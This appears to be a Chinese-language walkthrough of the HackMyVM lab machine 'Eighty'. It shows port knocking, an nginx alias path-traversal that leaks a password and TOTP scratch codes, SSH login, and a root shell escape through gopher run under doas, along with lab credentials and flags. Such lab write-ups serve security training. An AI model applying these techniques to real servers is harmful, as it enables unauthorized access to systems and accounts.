

# Eighty

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-04-08

✔️ MD5 // 08bd927e1e73f2a43008c1122838f481

☠ Root // 27

💀 User // 28

📝Notes //
Hack and fun.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.125
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.125
Host is up (0.00051s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c9:ce:d7:2a:f9:48:25:65:a9:33:4b:d5:01:e1:2c:52 (RSA)
|   256 7e:3d:4d:b4:82:0b:13:eb:db:50:e3:60:70:f0:4a:ad (ECDSA)
|_  256 7f:9d:13:c8:7b:d9:37:1d:cb:ff:e9:ce:f5:90:c3:32 (ED25519)
70/tcp open     http    pygopherd web-gopher gateway
|_http-title: Gopher
| gopher-ls:
|_[txt] /howtoconnect.txt "Connection"
```

## web 服务 Port-70

在 70 端口开放的实际上是一个 gopher 的欢迎界面，同时发现 nmap 自动化探测发现一个文件 `/howtoconnect.txt`

```plaintext title="192.168.56.125:70/howtoconnect.txt"
Ping us to: 4767 2343 3142
```

根据得到的信息，怀疑是 `knockd` 程序所监听的端口

## knock 芝麻开门

```shell
┌─[randark@parrot]─[~]
└──╼ $ knock 192.168.56.125 4767 2343 3142
┌─[randark@parrot]─[~]
└──╼ $ np-tcp 192.168.56.125
Starting Nmap 7.94SVN (https://nmap.org) at 2024-03-02 19:24 CST
Nmap scan report for 192.168.56.125
Host is up (0.00052s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c9:ce:d7:2a:f9:48:25:65:a9:33:4b:d5:01:e1:2c:52 (RSA)
|   256 7e:3d:4d:b4:82:0b:13:eb:db:50:e3:60:70:f0:4a:ad (ECDSA)
|_  256 7f:9d:13:c8:7b:d9:37:1d:cb:ff:e9:ce:f5:90:c3:32 (ED25519)
70/tcp open  http    pygopherd web-gopher gateway
| gopher-ls:
|_[txt] /howtoconnect.txt "Connection"
|_http-title: Gopher
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:FB:B3:60 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

可以发现，此时开放了一个 80 端口的 web 服务出来

## web 服务 Port-80

尝试目录爆破

```plaintext
[19:28:13] 200 -   16B  - /index.html
[19:28:28] 200 -   18B  - /robots.txt
```

查看 `robots.txt` 文件的内容

```plaintext
/nginx_backup.txt
```

继续跟进

```plaintext title="http://192.168.56.125/nginx_backup.txt"
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        root /var/www/html;
        index index.html index.htm index.nginx-debian.html;
        server_name _;
        location / {
                try_files $uri $uri/ =404;
        }
}

server {
server_name henry.eighty.hmv;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
        location /web {
                alias /home/henry/web/;
        }
  }

server {
server_name susan.eighty.hmv;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
        location /web {
                alias /home/susan/web/;
        }
  }
```

可以发现，这是一个 nginx 的配置文件，在其中可以找到以下地址

```plaintext
henry.eighty.hmv --> /home/henry/web/
susan.eighty.hmv --> /home/susan/web/
```

将以上的地址添加到 `/etc/hosts` 文件，然后继续跟进

## web 服务 henry.eighty.hmv

直接访问 `/web` 路由

```plaintext
Henry Webpage

Test
test
tes
Test
test
```

尝试目录爆破，未发现有价值信息

## web 服务 susan.eighty.hmv

直接访问 `/web` 路由

```plaintext
Susan Webpage
<!-- Work in progress -->
```

尝试目录爆破

```plaintext
/index.html           (Status: 200) [Size: 40]
/lostpasswd.txt       (Status: 200) [Size: 50]
```

访问这个文件

```plaintext title="http://susan.eighty.hmv/web/lostpasswd.txt"
8ycrois-tu0 + /home/susan/secret/.google-auth.txt
```

同时，结合上文得到的 nginx 配置文件

```plaintext
server {
server_name susan.eighty.hmv;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
        location /web {
                alias /home/susan/web/;
        }
  }
```

由于配置文件的 `location` 部分没有闭合，导致可以实现路径穿越

```plaintext title="http://susan.eighty.hmv/web../secret/.google-auth.txt"
2GN7KARBONVR55R7SP3UZPN3ZM
" RATE_LIMIT 3 30
" WINDOW_SIZE 17
" DISALLOW_REUSE
" TOTP_AUTH
71293338
48409754
27074208
60216448
17908010
```

## User - susan

```shell
┌─[randark@parrot]─[~]
└──╼ $ ssh susan@192.168.56.125
(susan@192.168.56.125) Password: ** 8ycrois-tu0 **
(susan@192.168.56.125) Verification code: ** 71293338 **
Linux eighty 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  2 07:01:10 2024 from 192.168.56.102
susan@eighty:~$ whoami
susan
```

:::note

由于采用的是 Auth 结构，所以上文提供的那些 Verification code 都是可以用的

:::

### flag - user

```shell
susan@eighty:~$ cat user.txt
hmv8use0red
```

### 环境探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/local/bin/doas
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
```

发现存在 doas 程序，读取其配置文件

```plaintext title="/usr/local/etc/doas.conf"
permit nolog susan as root cmd gopher
```

## User - root

```shell
susan@eighty:~$ doas -u root gopher localhost 70
```

执行这条指令之后，输入用户密码，就能以 root 的身份执行 gopher 程序，应该能够看到以下界面



接下来，按下 `!` 键，即可进入 shell

```shell
root@eighty:/home/susan# whoami
root
```

### flag - root

```shell
root@eighty:~# cat r0ot.txt
rooted80shmv
```
